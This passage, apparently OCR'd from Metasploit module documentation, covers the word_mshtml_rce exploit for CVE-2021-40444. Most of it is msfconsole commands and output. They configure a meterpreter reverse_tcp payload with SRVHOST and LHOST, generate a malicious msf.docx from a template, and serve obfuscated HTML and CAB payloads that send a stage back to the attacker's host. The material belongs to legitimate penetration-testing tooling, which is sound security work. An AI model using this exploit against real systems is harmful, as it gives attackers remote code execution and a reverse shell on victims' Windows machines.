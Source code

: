 A DOCX file that will be used as a template to build the exploit.

## Targets
* `Hosted`: Prepares the docx file and CAB file, then launches an http server to
  serve the CAB file and deliver the payload.

## Scenarios

### Basic use

1. Generate the exploit as following.

    ```
    msf exploit(windows/fileformat/word_mshtml_rce) > use exploit/windows/fileformat/word_mshtml_rce
    [*] Using configured payload windows/x64/meterpreter/reverse_tcp
    msf exploit(windows/fileformat/word_mshtml_rce) > set SRVHOST 172.20.7.36
    SRVHOST => 172.20.7.36
    msf exploit(windows/fileformat/word_mshtml_rce) > set LHOST 172.20.7.36
    LHOST => 172.20.7.36
    msf exploit(windows/fileformat/word_mshtml_rce) > set VERBOSE true
    VERBOSE => true
    msf exploit(windows/fileformat/word_mshtml_rce) > run
    [*] Using URL: http://172.20.7.36:8080/x58G8ZxLbZ
    [*] Server started.
    [*] CVE-2021-40444: Generate a malicious docx file
    [*] Using template '/opt/metasploit/data/exploits/cve-2021-40444.docx'
    [*] Parsing item from template: [Content_Types].xml
    [*] Parsing item from template: _rels/
    [*] Parsing item from template: _rels/.rels
    [*] Parsing item from template: docProps/
    [*] Parsing item from template: docProps/core.xml
    [*] Parsing item from template: docProps/app.xml
    [*] Parsing item from template: word/
    [*] Parsing item from template: word/theme/
    [*] Parsing item from template: word/theme/theme1.xml
    [*] Parsing item from template: word/styles.xml
    [*] Parsing item from template: word/settings.xml
    [*] Parsing item from template: word/document.xml
    [*] Parsing item from template: word/_rels/
    [*] Parsing item from template: word/_rels/document.xml.rels
    [*] Parsing item from template: word/fontTable.xml
    [*] Parsing item from template: word/webSettings.xml
    [*] Injecting payload in docx document
    [*] Finalizing docx 'msf.docx'
    [+] msf.docx stored at /home/mekhalleh/.msf4/local/msf.docx
    ```

2. Execute the DOCX document on a remote vulnerable system.

    ```
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending HTML Payload
    [*] 172.20.7.36      word_mshtml_rce - Obfuscate JavaScript content
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: cc1d5e18
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] 172.20.7.36      word_mshtml_rce - Sending CAB Payload
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 620a35dd
    [*] 172.20.7.36      word_mshtml_rce - Data block added w/ checksum: 7e6fb805
    [*] Sending stage (200262 bytes) to 172.20.7.36
